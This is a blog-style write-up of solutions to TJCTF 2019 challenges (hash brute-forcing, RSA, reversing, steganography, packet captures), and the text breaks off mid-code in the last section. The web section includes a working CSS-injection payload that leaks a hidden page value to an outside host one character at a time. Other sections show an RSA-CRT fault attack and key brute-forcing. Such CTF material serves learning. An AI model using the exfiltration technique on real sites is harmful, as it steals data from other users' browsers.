


+++
title = 'TJCTF 2019'
date = 2019-04-06
math = true
+++

- [Website](https://tjctf.org/)
- [CTFTime](https://ctftime.org/event/726)

I tried to solve a pwn challenge, but couldn't...

## Guess My Hashword
**Category**: Cryptography

> Written by boomo
>
> I bet you'll never guess my password!
>
> I hashed tjctf{[word]} - my word has a captial letter, two lowercase letters, a digit, and an underscore.
>
> Here's the md5 hash: 31f40dc5308fa2a311d2e2ba8955df6c

Given such a small keyspace, I went ahead and brute-forced it.

```python
from hashlib import md5
from itertools import product, permutations

want = '31f40dc5308fa2a311d2e2ba8955df6c'

capital = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
letters = 'abcdefghijklmnopqrstuvwxyz'
digits = '0123456789'

keyspace = (''.join(s) for c in product(capital, letters, letters, digits, '_') for s in permutations(c, 5))

for s in keyspace:
    s = 'tjctf{%s}' % s
    if md5(s.encode()).hexdigest() == want:
        print(s)
        break
```

This code found the solution in less than 10s on my machine.

- flag: `tjctf{w0w_E}`

## Easy as RSA
**Category**: Cryptography

> Written by rj9
>
> Decrypt this for a quick flag!
>
> [rsa](easy-rsa/rsa)

Since the modulus is small (198 bits), I used this [online factorizor](https://www.alpertron.com.ar/ECM.HTM).

```python
p = 564819669946735512444543556507
p = 671998030559713968361666935769
d = gmpy2.invert(e, (p-1) * (q-1))
pt = pow(c, d, n)
print(unhex(hex(pt)[2:]).decode())
```

- flag: `tjctf{RSA_2_3asy}`

## Journey
**Category**: Miscellaneous

> Written by boomo
>
> Every journey starts on step one
>
> `nc p1.tjctf.org 8009`

Upon connecting, the server sends you a word, and then prompts you to reply with that word. Over and over.

```
Encountered 'one'
The first step: 
Encountered 'infected'
The next step: 
Encountered 'solubility'
The next step: 
```

I let this code run for a while, it had printed out the flag when I came back to it.

```python
word = input()

p = remote('p1.tjctf.org', 8009)

p.recvuntil('step:')
p.sendline(word)

while True:
    line = p.recvline()
    print(line)
    line = line[14:-2]
    p.recvuntil('step:')
    p.sendline(line)
```

- flag: `tjctf{an_38720_step_journey}`
- solution: [solution.py](journey/solution.py)

## All the Zips
**Category**: Forensics

> Written by boomo
>
> 140 zips in the zip, all protected by a dictionary word.
>
> [All the zips](allthezips/all_the_zips.zip)

I figured out how to use [JTR](https://github.com/magnumripper/JohnTheRipper)! Most of my time was spent on trying to get the damn thing to compile on my machine, though.

Running it like `./run/john zip_hashes` was enough. Not sure where the wordlists are coming from but I'm not complaining. `zip85.zip` with password "every" contained the flag.

- flag: `tjctf{sl4m_1_d0wn_s0_that_it5_heard}`

## Galaxy
**Category**: Forensics

> Written by rj9
>
> I found this interesting picture in my astronomy textbook but I don't know whats special about it. Maybe a reverse image search will help.
>
> [galaxy](galaxy/galaxy.png)

This is a 220x220 PNG image, and reverse image search told me that it is a "Low Surface Brightness Galaxy" or an "LSB" Galaxy,

This hinted me to look at the LSB of RGB value of the image. 

```go
for y := 0; y < img.Bounds().Dy(); y++ {
	for x := 0; x < img.Bounds().Dx(); x++ {
		r, g, b, _ := img.At(x, y).RGBA()
		fmt.Print(r & 1)
		fmt.Print(g & 1)
		fmt.Print(b & 1)
	}
}
```

This code goes through the image in reading order, printing the least significant bits of each pixel's RGB values. I had first tried this column-first, but the output contained sparse chunks of 1 bits separated by roughly 600 zeroes, which suggested that the image was to be read row-first.

Once I extracted the bits, I converted them into a string, obtaining the flag.

```python
bits = '01110100011010100110001101110100011001100111101101101100011000010111001101110100010111110110001001110101011101000101111101101110001100000111010001011111011011000011001101100001011100110111010001111101'
print(unhex(hex(int(bits, 2))[2:]).decode())
```

- flag: `tjctf{last_but_n0t_l3ast}`
- solution: [solution.go](galaxy/solution.go)

## Checker
**Category**: Reversing

> Written by rj9
>
> Found a flag checker program that looked pretty sketchy. Take a look at it.
>
> [file](checker/Checker.java)

The encoding function does the following operations:

1. Reverse the given string.
2. Convert each string to binary, without leading zeroes.
3. Woah: Flip all bits
4. Wow: Rotate 9 bits to the right.

It was relatively easy to reverse the last two steps:

```python
rev = ''.join([encoded[(i-9)%len(encoded)] for i in range(len(encoded))])
rev = ''.join(['0' if s == '1' else '1' for s in rev])
```

This gave me the following bit string:

```
1111101110011110001111000111100111101011110001111000111101011110001111101111001101110100110001111010101110100
```

I then stripped out the known portions (`tjctf{}`), trimming the string down to 60 bits:

```
110011110001111000111100111101011110001111000111101011110001
```

The final part was the most challenging, figuring out where each letter ended and the next one began. Since leading zeroes are omitted, the most significant bit of each letter must be 1, and since they're printable ASCII, they're most probably between 6-8 bits long.

After a bit of manual splitting and looking up ASCII values, I obtained the following splits:

```
110011 1100011 110001 1110011 1101011 1100011 110001 1110101 1110001
3      c       1      s       k       c       1      u       q
```

> It seems that they changed this problem to be much easier, padding each byte to 8 characters, thus making the guessing unnecessary. All you have to do is split the string at every 8 characters.

- flag: `tjctf{qu1cks1c3}`

## Broken Parrot
**Category**: Reversing

> Written by evanyeyeye
>
> I found this annoying [parrot](parrot/parrot). I wish I could just ignore it, but I've heard that it knows something special.

I recently learned how to read assembly, so I can solve the easier reversing problems now! Yay!

The first thing that stumped me was the fake flag, the hardcoded `tjctf{my_b3l0v3d_5qu4wk3r_w0n7_y0u_l34v3_m3_4l0n3}`. It wasn't that easy.

The common case is when you input a string and the program just spits it back out. However, the program performs a set of checks when the given string is exactly 33 characters long.

1. Check if the first 6 characters of the input matches the hardcoded string (`tjctf{`).
2. Check if characters 6-8 match the hardcoded string with offset 14 (`3d_`).
3. Check if characters 10-33 match the hardcoded string with offset 27 (`0n7_y0u_l34v3_m3_4l0n3}`).
4. Finally, check if character 9 is `d`.

If at any point the input string differs from the expected value, the value at `-0x50(%ebp)` is set to 0, and the program only reports that you have obtained the flag if this value is still set after all the checks are over.

- flag: `tjctf{3d_d0n7_y0u_l34v3_m3_4l0n3}`

## Cable Selachimorpha
**Category**: Forensics

> Written by jfrucht25
>
> Although Omkar is the expert at web, I was still able to intercept his communications. Find out what password he used to login into his website so that we can gain access to it and see what Omkar is up to.
>
> [capture.pcap](cable/capture.pcap)

`strings` was enough to solve this challenge.

- flag: `tjctf{b0mk4r_br0k3_b10n}`

## Rockstart Certified
**Category**: Miscellaneous

> Written by boomo
>
> Tommy is a Certified Rockstar Developer! That means he can code in the [rockstar](https://github.com/dylanbeattie/rockstar/blob/master/spec.md) programming language .
>
> I've known him for years but last week I saw him dealing with some shady, cultist-y people, exchanging numbers and dates. Just last night, I saw him working on some program called [ritual.rock](rockstar/ritual.rock). He typed in a number I couldn't see, then the number 1337. The program gave the output 'November 18.' The thing is, November 18th is my favorite day and 1337 is my second favorite number. If the first number he put in is my favorite, I think Tommy here might be a bit of a stalker. And I don't want a cowboy from ram ranch following me around.
>
> Note: the flag is in the format tjctf{[first\_number]}

The language specs are quite straightforward, so I went ahead and rewrote the program in pseudocode.

```
void(something) {
	# min(something, 10000)
	everything = 10000
	nothingness = 0
	while something != nothingness && nothingness < everything
		nothingness++
	return nothingness
}

the earth(life, death) {
	# life % death
	while death < life
		life -= death
	return life
}

his reincarnation(my soul, your blood) {
	# my soul / your blood
	his life = 0
	while my soul >= your blood {
		my soul -= your blood
		his life++
	}
	return his life
}

your whispers = input()
ice = void(your whispers)

your screams = input()
fire = void(your screams)

energy = 2
ashes = energy-energy
potential = energy/energy

while ice > 0 || fire > 0 {
	wind = the earth(ice, energy)
	earth = the earth(fire, energy)
	ice = his reincarnation(ice, energy)
	fire = his reincarnation(fire, energy)

	if wind > earth || earth > wind
		ashes += potential

	potential *= energy
}

his heart = 12
space = his reincarnation(ashes, his heart)
flow = the earth(ashes, his heart)
# output space = date, flow = month
```

Starting from the bottom, I figured out that `ashes % 12 = 11`, `ashes / 12 = 18`, so `ashes = 227`. Also, the program basically just sets `ashes = ice ^ fire`. Therefore, I just just had to come up with a number that evaluates to 227 when XORed with 1337.

- flag: `tjctf{1498}`

## Comprehensive
**Category**: Reversing

> Written by boomo
>
> Please teach me how to be a comprehension master, all my friends are counting on me!
>
> [comprehensive.py](comprehensive/comprehensive.py)
>
> Original output: 225, 228, 219, 223, 220, 231, 205, 217, 224, 231, 228, 210, 208, 227, 220, 234, 236, 222, 232, 235, 227, 217, 223, 234, 2613
>
> Note: m and k were 24 and 8 characters long originally *and english*.

This is why python is unreadable.

I went through each line, sometimes rewriting it with explicit for-loops for better readability.

```python
f = [[ord(k[a]) ^ ord(m[a+b]) for a in range(len(k))] for b in range(0, len(m), len(k))]
```

This creates a list `f` such that `f[a][b] = m[a*8 + b] ^ k[b]`. That is, it groups the flag by 8 bytes and XORs each group with the key.

```python
g = [a for b in f for a in b]
```

This line flattens the two-dimensional array created in the first step.

```python
h = [[g[a] for a in range(b, len(g), len(f[0]))] for b in range(len(f[0]))]
```

This rearranges the input string, such that `h[a][b] = g[a + b*3]`.

```python
i = [[h[b][a] ^ ord(k[a]) for a in range(len(h[0]))] for b in range(len(h))]
```

This XORs each list in h with the first three bytes of the key.

```python
print(str([a + ord(k[0]) for b in i for a in b])[1:-1] + ',', sum([ord(a) for a in m]))
```

Finally, this prints out the list, after adding the first byte of the key to each element. Also, it provides us with the sum of the byte values of the original flag.

Once I figued out what the code was doing, I knew that I first had to extract the key bytes.

The first byte of the flag is still the first byte of the ciphertext, which allowed me to obtain the first byte of the key by subtracting 't' from it. Then, I subtracted this value from the entire list, undoing the last step of the program.

```python
key[0] = lst[0] - ord('t')
lst = [i-key[0] for i in lst]
```

Since the first elements of each 3-element group were XORed with `k[0] ^ k[i]`, and I knew the original values of these bytes (`tjctf{`), I just had to re-XOR them to obtain the next 5 bytes of the key,

Also, I obtained the last byte of the by XORing the last byte of the ciphertext with `k[2] ^ '}'.

```python
for i in range(len(known)):
        key[i] = lst[i*3] ^ ord(known[i]) ^ key[0]
key[-1] = lst[-1] ^ ord('}') ^ key[2]
```

I brute-forced the one remaning key byte, checking whether I had guessed correctly by checking the byte sum of the de-XORed values.

Once I obtained the full key and undid the XOR operations, I just need to un-shuffle the message to obtain the flag.

```python
for i in range(26):
    key[6] = i + ord('a')
    msg = dexor(lst, key)
    if sum(msg) == total:
        break

msg = [msg[a + b*3] for a in range(3) for b in range(8)]
```

- flag: `tjctf{oooowakarimashita}`
- solution: [solution.py](comprehensive/solution.py)

## Moar Horse 2
**Category**: Web

> Written by okulkarni
> 
> Moar Horse is back and better than ever before! Check out [this site](https://moar_horse_2.tjctf.org/) and see if you can find the flag. It shouldn't be that hard, right?

This problem showed you a page with a UUID in the URL with "forward" "backward" buttons, which took you to a similar-looking page, although the links were different UUIDs.

I downloaded every single page using `wget -nd -nc -rl0 https://moar_horse_2.tjctf.org/`, and searched for the flag in the 32769 pages. The flag happened to be on page `3cf94f73-568f-4dbc-b185-d545aff438d6.html`. I am fairly sure that this is not the organizers' intended solition. However, if it is stupid but it works, it isn't stupid.

- flag: `tjctf{s0rry_n0_h0rs3s_anym0ar}`

## Invalidator
**Category**: Reversing

> Written by evanyeyeye
> 
> Come one, come all! I offer to you unparalleled convenience in getting your flags [invalidated](invalidator/invalidator)!

The program seemed to read the input from the first argument, then compared it with a hardcoded string. However, this hardcoded string turned out to be fake flag (`tjctf{0h_my_4_51mpl370n_4_r3d_h3rr1n6_f0r_7h33}`). Thing is, the `strcmp` function is not the usual one we know, but a user function that just happened to be named `strcmp`. I noticed this because the output from `objdump` showed it as `<strcmp>`, not `<strcmp@plt>` as usual.

The program seems to have a hardcoded integer array at `0x0x804a040`, which it compares the input string to, character by character. The index is stored in `ebp - 0x4`.

```
80484cd:	8b 45 fc             	mov    eax,DWORD PTR [ebp-0x4]
80484d0:	c1 e0 02             	shl    eax,0x2
80484d3:	83 c0 02             	add    eax,0x2
80484d6:	8b 04 85 40 a0 04 08 	mov    eax,DWORD PTR [eax*4+0x804a040]
```

First, it loads the integer value at `array[index*4 + 2]`.

```
80484dd:	8b 4d fc             	mov    ecx,DWORD PTR [ebp-0x4]
80484e0:	8b 55 0c             	mov    edx,DWORD PTR [ebp+0xc]
80484e3:	01 ca                	add    edx,ecx
80484e5:	0f b6 12             	movzx  edx,BYTE PTR [edx]
80484e8:	0f be ca             	movsx  ecx,dl
80484eb:	8b 55 fc             	mov    edx,DWORD PTR [ebp-0x4]
80484ee:	c1 e2 02             	shl    edx,0x2
80484f1:	8b 14 95 40 a0 04 08 	mov    edx,DWORD PTR [edx*4+0x804a040]
80484f8:	31 d1                	xor    ecx,edx
```

It then loads the character at `input[index]` and XORs it with the value at `array[4*index]`.

```
80484fa:	8b 55 fc             	mov    edx,DWORD PTR [ebp-0x4]
80484fd:	83 c2 40             	add    edx,0x40
8048500:	c1 e2 02             	shl    edx,0x2
8048503:	8b 14 95 40 a0 04 08 	mov    edx,DWORD PTR [edx*4+0x804a040]
804850a:	31 ca                	xor    edx,ecx
804850c:	39 d0                	cmp    eax,edx
804850e:	74 aa                	je     80484ba <strcmp+0xf>
```

Finally, it XORs the value obtained from the previous step with the value at `array[4*(index+40)]`, comparing this with the first value we loaded from the array.

Overall, this loop must run 40 times before exiting. In order to obtain the correct string, I had to read out the array and compute `array[4*index] ^ array[4*index+2] ^ array[4*(index+40)]` for each index value from 0 to 39.

```python
a = [77,187,75,202,20,168,249,78,37,17,180,52,141,197,8,102,243,126,135,100,131,60,152,240,168,232,231,53,173,53,75,49,148,214,241,161,247,62,64,162]
b = [89,249,168,156,202,129,8,113,39,76,207,105,246,228,246,180,9,121,118,155,76,16,23,38,90,141,7,122,75,15,14,240,98,6,2,229,101,36,158,168]
c = [96,40,128,34,184,82,198,87,54,51,16,2,2,17,139,141,207,54,131,160,255,94,208,187,198,1,212,34,213,101,51,242,132,169,172,39,162,42,178,119]
print(''.join([chr(x^y^z) for x,y,z in zip(a,b,c)]))
```

- flag: `tjctf{7h4nk_y0u_51r_0r_m4d4m3_v3ry_c00l}`

## BC Calc
**Category**: Forensics

> Written by jfrucht25
>
> This file was found in Evan Shi's 60 gb homework folder. What could he be up to? Figure out what the images mean in order to find out.
>
> [notAnime](bccalc/logo.odt)
>
> note: all letters in the flag are lowercase

This is an ODT document with a bunch of logos:


Looking closely, I noticed that the logos contained the letters in "tjctf{}", so I guessed that I had to find some ordering of these logos to spell out the flag. However, I couldn't try every permutation, since $23!$ is too large.

I first unzipped the ODT file to see more data about the document:

```
Archive:  logo.odt
 extracting: logos/mimetype          
 extracting: logos/Thumbnails/thumbnail.png  
 extracting: logos/Pictures/10000000000004B000000276D444D8141B10F34D.png  
 extracting: logos/Pictures/10000000000000B4000000B4BBA3D3C53CB3E5B3.png  
 extracting: logos/Pictures/100002010000084E00000326EB4E118263551E7A.png  
 extracting: logos/Pictures/100002010000011D00000140AA2150E289158A76.png  
 extracting: logos/Pictures/10000201000000FF000000C6B3EC9DB3ABE1806D.png  
 extracting: logos/Pictures/10000201000000AA000000AA960FC127AE7B0FCF.png  
 extracting: logos/Pictures/1000000000000190000001907FB0EF2007F1F7AC.png  
 extracting: logos/Pictures/10000201000001450000014565357D5D14CE6F38.png  
 extracting: logos/Pictures/10000201000003E8000002322424DB7F8AD00F68.png  
 extracting: logos/Pictures/1000000000000960000007089707CB71C5603689.png  
 extracting: logos/Pictures/10000201000000E1000000E1D7EC5FBA239977B5.png  
 extracting: logos/Pictures/1000020100000258000001907940F32ECE8F4B2C.png  
 extracting: logos/Pictures/1000020100000257000000C850C929659F1CC7FD.png  
 extracting: logos/Pictures/10000000000004B0000004B05AA73E361964919E.png  
 extracting: logos/Pictures/1000020100000190000001901B8D20B9ACC8592F.png  
 extracting: logos/Pictures/1000020100000100000001002B8686ABC0AA502A.png  
 extracting: logos/Pictures/10000201000001A10000019B9C1E990FDA7160A9.png  
 extracting: logos/Pictures/10000201000002BC000002BC3C2F8C3ADE701276.png  
 extracting: logos/Pictures/10000201000003E8000001A96D22240CD4A9B5DF.png  
 extracting: logos/Pictures/10000201000000C8000000C874DA939FF3D1D941.png  
 extracting: logos/Pictures/100000000000032000000258FA5D494D53975924.png  
 extracting: logos/Pictures/10000201000004B000000320E0EEE183552C2E08.png  
 extracting: logos/Pictures/10000201000000E1000000E15065C5C4D6CC2F72.png  
   creating: logos/Configurations2/accelerator/
   creating: logos/Configurations2/popupmenu/
   creating: logos/Configurations2/toolpanel/
   creating: logos/Configurations2/menubar/
   creating: logos/Configurations2/images/Bitmaps/
   creating: logos/Configurations2/toolbar/
   creating: logos/Configurations2/floater/
   creating: logos/Configurations2/statusbar/
   creating: logos/Configurations2/progressbar/
  inflating: logos/content.xml       
  inflating: logos/meta.xml          
  inflating: logos/manifest.rdf      
  inflating: logos/settings.xml      
  inflating: logos/styles.xml        
  inflating: logos/META-INF/manifest.xml  
```

I tried looking at the images in sorting order, but that didn't help much.

Out of the files in the archive, [content.xml](bccalc/content.xml) stands out, in that it has the image file names. Using the image order in this file turned out to be the solution:

```
$ grep -oP 'Pictures/.*?\.png' content.xml 
Pictures/10000201000000FF000000C6B3EC9DB3ABE1806D.png
Pictures/10000201000000E1000000E1D7EC5FBA239977B5.png
Pictures/1000000000000960000007089707CB71C5603689.png
Pictures/10000201000001450000014565357D5D14CE6F38.png
Pictures/1000000000000190000001907FB0EF2007F1F7AC.png
Pictures/1000020100000190000001901B8D20B9ACC8592F.png
Pictures/10000000000004B0000004B05AA73E361964919E.png
Pictures/1000020100000257000000C850C929659F1CC7FD.png
Pictures/10000201000001A10000019B9C1E990FDA7160A9.png
Pictures/10000201000000C8000000C874DA939FF3D1D941.png
Pictures/100000000000032000000258FA5D494D53975924.png
Pictures/1000020100000100000001002B8686ABC0AA502A.png
Pictures/10000201000003E8000001A96D22240CD4A9B5DF.png
Pictures/10000201000000E1000000E15065C5C4D6CC2F72.png
Pictures/10000201000004B000000320E0EEE183552C2E08.png
Pictures/10000201000002BC000002BC3C2F8C3ADE701276.png
Pictures/1000020100000258000001907940F32ECE8F4B2C.png
Pictures/10000201000003E8000002322424DB7F8AD00F68.png
Pictures/10000201000000AA000000AA960FC127AE7B0FCF.png
Pictures/100002010000011D00000140AA2150E289158A76.png
Pictures/100002010000084E00000326EB4E118263551E7A.png
Pictures/10000000000000B4000000B4BBA3D3C53CB3E5B3.png
Pictures/10000000000004B000000276D444D8141B10F34D.png
```

- flag: `tjctf{knowurfiles}`

## Is this the real life
**Category**: Cryptography

>Written by etherlyt
>
>...is this just fantasy? [public key](reallife/pubkey.txt) [rsagen](reallife/rsa.sage)

The code first generates 8 entries in `nlist` as follows:

```python
for x in range(8):
	n = 0
	phi = 1
	#RSA pubkey gen
	while True:
		p = random_prime(2^floor(nbits/2)-1,lbound=2^floor(nbits/2-1),proof=False)
		q = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
		n = p*q
		phi = (p-1)*(q-1)
		d = modinv(e, (p-1)*(q-1))
		block = (d*e) % phi
		if gcd(phi,e) == 1:
			shield = 108.0
			n = ((shield.nth_root(2)+10).nth_root(3)-(shield.nth_root(2)-10).nth_root(3))/2
			break
	phi = int(str(phi)[:4]+str(phi)[::-1][:4])**ceil(n)
	nlist.append(phi)
```

1. Generate two prime numbers $p, q$ (256 bits each).
2. Calculate $\varphi = (p-1) (q-1)$
3. Shuffle the digits of $\varphi$ around and store its square in `nlist`.

That's it. The complex-looking computation with `shield` always comes out to 2, and `block` is always 1, since $e d \equiv 1 \pmod{\varphi}$ .

It then generates a prime `modulus` (but it doesn't matter) and computes the ciphertext as follows:

```python
for c in range(len(flag)):
	nm = str(int(bin(int(flag[c].encode('hex'),16)).replace('0b', '')))
	for b in range(len(nm)):
		cipher[c] += int(nm[b])*nlist[b]
	cipher[c] = cipher[c]*int(nm)
	cipher[c] = cipher[c]%modulus
for x in range(len(cipher)):
	cipher[x] = cipher[x]*block
```

Again, there is a bit of obfuscation going on, but `nm` is set to the binary string of each character of the flag. The ciphertext is computed as $cipher = nm \sum\_{i=1}^{8} nm\_i \cdot nlist\_i \pmod{modulus}$ .

Note that since `modulus` is 256 bits, it is not possible for the sum of the `nlist` elements to exceed the modulus.

In the end, brute-forcing each byte was enough.

```python
for cipher in ct:
    for char in range(256):
        bits = bin(char)[2:]
        cur = 0
        for i, bit in enumerate(bits):
            cur += nlist[i]*int(bit)
        cur *= int(bits)

        if cur == cipher:
            print(chr(char), end='')
            break
```

- flag: `tjctf{i_T40ugh7_1t_w43_RsA}`
- solution: [solution.py](reallife/solution.py)

## Sight at Last
**Category**: Miscellaneous

> Written by jfrucht25
>
> `nc p1.tjctf.org 8005`

Upon connecting, I was greeted with the following message:

```
To get the flag, solve a hundred captchas in 500 seconds!
Find the minimum distance between the centers of two circles to continue:
/9j/4AAQSkZJRgABAQAAAQABAAD/2wBDAAgGBgcGBQgHBwcJCQgKDBQNDAsLDBkSEw8UHRofH [...]
```

The base64 data is a JPEG image, here is an example:



Assuming that no circles would ever touch or overlap, I came up with the following algorithm:

1. In order to deal with JPEG artifacts and such, threshold the image (I chose 128).
2. Create a $w \times h$ array $a$ , where $a\_{x, y}$  is set to the minimum straight-line distance from that point to the nearest white pixel. This can be done in $O(wh)$ .
3. Treat a point as the center of a circle if $a\_{x, y} > a\_{x+1, y}, a\_{x-1, y}, a\_{x, y+1}, a\_{x, y-1}$ .
4. Run the naive $n^2$ algorithm to detect minimum distance between these points.

Overall, we can solve an image "captcha" in $O(wh + n^2)$, with $n$ as the number of circles.

For reference, step 2 produces something like this:



- flag: `tjctf{i5_th1s_c0mput3r_v1si0n?}`
- solution: [solution.go](sight/solution.go)

## Moar Horse 3
**Category**: Web

> Written by okulkarni
> 
> I copped this really cool [website](https://moar_horse_3.tjctf.org/) from online and made it customizable so you can flex your CSS skills on everyone, especially the admin.
> 
> Note: When you get the flag, wrap it in tjctf{} before submitting

The challenge was a cool-looking website where I could insert custom CSS and it included a button to show it to the admin.

Looking at the source, I noticed the following line:

```html
<h1 class="lead flag" value="You're not an admin! If you were, this would be the flag.">Welcome to my awesome website!</h1>
```

The website also set a session cookie. At first, I thought I had to somehow steal the admin's session cookie through CSS injection, but this seemed quite hard.

Instead, I could use CSS injection to read out the flag one letter at a time by using a CSS stylesheet that looks like this:

```css
body {background-image: url(https://proxy.nevivur.net/trigger);}
.flag[value^=a] {background-image: url(https://proxy.nevivur.net/a);}
.flag[value^=b] {background-image: url(https://proxy.nevivur.net/b);}
.flag[value^=c] {background-image: url(https://proxy.nevivur.net/c);}
.flag[value^=d] {background-image: url(https://proxy.nevivur.net/d);}
[...]
```

This will cause the admin browser to load the `/trigger` url, as well as the url with the first letter of the flag. Once I saw the admin access from the webserver logs, I updated the CSS like so:

```css
body {background-image: url(https://proxy.nevivur.net/trigger);}
.flag[value^=la] {background-image: url(https://proxy.nevivur.net/la);}
.flag[value^=lb] {background-image: url(https://proxy.nevivur.net/lb);}
.flag[value^=lc] {background-image: url(https://proxy.nevivur.net/lc);}
.flag[value^=ld] {background-image: url(https://proxy.nevivur.net/ld);}
[...]
```

And so on, until the admin accessed only the `/trigger` url but not any other url, signaling that there were no further characters.

- flag: `tjctf{l0l1nj3ctc55}`

## Planning Virtual Distruction
**Category**: Forensics

> Written by jfrucht25
> 
> In his quest for world domination, Omkar realized that he needed to conquer more than just land, so he turned to conquering the internet. His first target was becoming the king of youtube by overcoming Pewdiepie. As a result, he embodied his Indian culture, creating the channel TSeries. In a step to stop Omkar's world domination, we need to regain control of the internet. Perhaps you can uncover his plans hidden in [this image](pvd/phase2plans.png) and make a DIFFERENCE before it is too late.

The title hinted at "PVD". Searching for "PVD steganography difference" pointed me towards [this paper](https://www.sciencedirect.com/science/article/abs/pii/S0167865502004026), in which Wu and Tsai describe a method of hiding data in grayscale images. The advancement from the traditional constant n-LSB encoding method is that it encodes more data in ares where the image changes more, and less where the image is relatively smooth, thus providing higher bandwidth where available while staying undectectable.

After implementing and running the algorithm as described on the paper on the image, I printed out the data and looked for the flag in the output using something like `grep -ao 'tjctf{.*}'`.

- flag: `tjctf{r1p_p3wd5_t53r1s_b4d}`
- solution: [solution.go](pvd/solution.go)

## Cats Ruin Things
**Category**: Cryptography

> Written by etherlyt
> 
> My cat took over my computer and ruined everything. Or maybe, only half of everything? [source](crt/rsa.py)
> 
> `nc p1.tjctf.org 8006`

Looking at the source, it generates a new key on every command. The signing operation is something like `rsa_sign(flag || msg)`. However, there was something weird on the signing function:

```python
def sign(m, key):
	p = key.p
	q = key.q
	e = key.e
	d = modinv(e, (p-1)*(q-1))
	dp = d%(p-1)
	dq = d%(q-1)+struct.unpack('i', urandom(4))[0]
	qInv = modinv(q, p)
	
	s1 = pow(m, dp, p)
	s2 = pow(m, dq, q)
	h = (qInv*(s1-s2))%p
	s = s2+h*q
	return [s, e, p*q, p, q]
```

It seemed to be doing the CRT optimization with the RSA private key operation, but `dq` had a random integer added to it, making it meaningless.

I had heard of RSA fault attacks before, so I [looked around](https://www.cryptologie.net/article/371/fault-attacks-on-rsas-signatures/) for specifics on the attack. I figured out the following:

First, in the above, code, it meant that $s\_2$ is plain wrong. Changing it to $x$ to make it slightly clearer,

$$
\begin{align}
	s\_1 &= m^{d\_p} \pmod{p}
	\\\\ x &= m^{d\_q} \pmod{q}
	\\\\ s &= x + (q^{-1} (s\_1 - x) \pmod p)q
\end{align}
$$

Now, since

$$
\begin{align}
	s^e & \equiv m \pmod{p}
	\\\\ s^e & \not \equiv m \pmod{q}
\end{align}
$$

It follows that

$$
\begin{align}
	s^e - m & \equiv 0 \pmod{p}
	\\\\ s^e -m & \not \equiv 0 \pmod{q}
\end{align}
$$

Therefore, if we were to compute $GCD(s^e - m, N)$ , we would obtain $p$ , obtaining the private key.

In order to solve this challenge, I first figured out $m$ by choosing any arbitrary message and recording the server-produced hash (which I can't compute myself, since it's concatenated with the flag).

```
hashed mes: ed044994e7428c76aebfe6b647665aac94b583294593d4284b0525f94da022c9
```

Then, choosing option 1, I input the same message as before. The server then replied with the public key and the (invalid) signature:

```
e: 65537
N: 16320381743547370925077506389122353055431852693210586482093097093712526833394726597143519791437498806166402634109283209168827921481015173626134294920034763722575355944033030947412996534177242865898571661734518374554278410576728268346183337711074387529597276600189092513100258969033311134399626382842254749840992671090165605127183477912985038707942905382013991544361142732813968410905142146822283624860446089755883999525849180405324010500306304156038483228180616395387111137531931186532573392559017616311134531480451293280848920666825388282230052377905120832285312314181325514957257195333924525630659925334637201343211
Here is your signature:
9886434279059831661809984425899166488127823607228819533783507110337451596473512804675827058162664325913825692643711677436533250647368201131925228908970806022449253388987779960098630483083718561618788469597029281979302342869762465528043529811432379716758616393578819613449164663489398341579910070511374222263788336556854710751433977535953683606166005211088846871197975950272135854601785975653546848060989283056757832020755668000864725983956542199790577952156977264499592843497784476143894069895669522917450689688972260737904210360201696378701254034543368134284719855728734955361798787399891784414249034381451033926480
```

I could then obtain $p$ as follows:

```python
gmpy2.gcd(pow(sig, e, n) - int(hash, 16), n)
# 127359406750547339583223464998653905286468256318294106176565547220008122355200755010249735435707904160106406677830295618424026637619145508159786896059740265049391844585745341950863094203768451690024436078935725554250866827487237851529446376778305395346469861355237342975590021959680482091833092038593055021079
```

I could then generate the private exponent and decrypt the message from the cat, obtaining the flag.

> Note: the source was added after no solutions were submitted for ~2 days. I only managed it solve it after it was added, though.

- flag: `tjctf{cAts_4r3_d3vils_RSACRT}`

## Security through Ergodicity
**Category**: Forensics

> Written by Alaska47
> 
> Life sucks sometimes because Facebook Messenger is always so slow. That’s why I decided to make my own chat client. It’s simple, stream-lined, and best of all, encrypted with state of the art encryption. Check this [out](ergodicity/capture.pcapng)! Oh yeah, and here's the [source](ergodicity/Chat.java) too!

The java program generates a new key whenever a user connects, like so:

```java
long timestamp = ((long) System.currentTimeMillis() / 1000);
Random random = new Random(timestamp);
String key  = String.format("%016x", ((long)(random.nextDouble()*10000000000L)));
String ivec  = String.format("%016x", ((long)(random.nextDouble()*10000000000L)));
AES cipher = new AES(key.getBytes("UTF-8"), ivec.getBytes("UTF-8"), "AES/CBC/PKCS5PADDING");
```

Also, when inspecting the pcap, (filtering for websocket traffic) we notice the following plaintext messages:

```
crap, 11:30?, that's literally in 2 minutes
[...]
its in 2 days
how do you not remember when your own competition is??
```

which hinted at the time when the session was created. Also, I extracted the [list](ergodicity/enc_data.txt) of encrypted messages from the capture.

Just to be safe, I just scanned the entire 2-day range starting 1 day before the competition started:

```java
long ts = 1554422400;

for (int i = 0; i < 2*24*60*60; i++) {
	long cur = ts-i;
	Random r = new Random(cur);

	String key  = String.format("%016x", ((long)(r.nextDouble()*10000000000L)));
	String ivec  = String.format("%016x", ((long)(r.nextDouble()*10000000000L)));
	System.out.printf("%d %s %s\n", cur, key, ivec);
}
```

Once I had the list of possible keys, I tried every single one until I saw the text `<article>` in the decrypted data, choosing the first encrypted data to be decrypted:

```python
with open('keys') as k, open('data') as d:
    data = base64.b64decode(next(d))
    for line in k:
        ts, key, iv = line.split()

        cipher = AES.new(key, mode=AES.MODE_CBC, IV=iv)
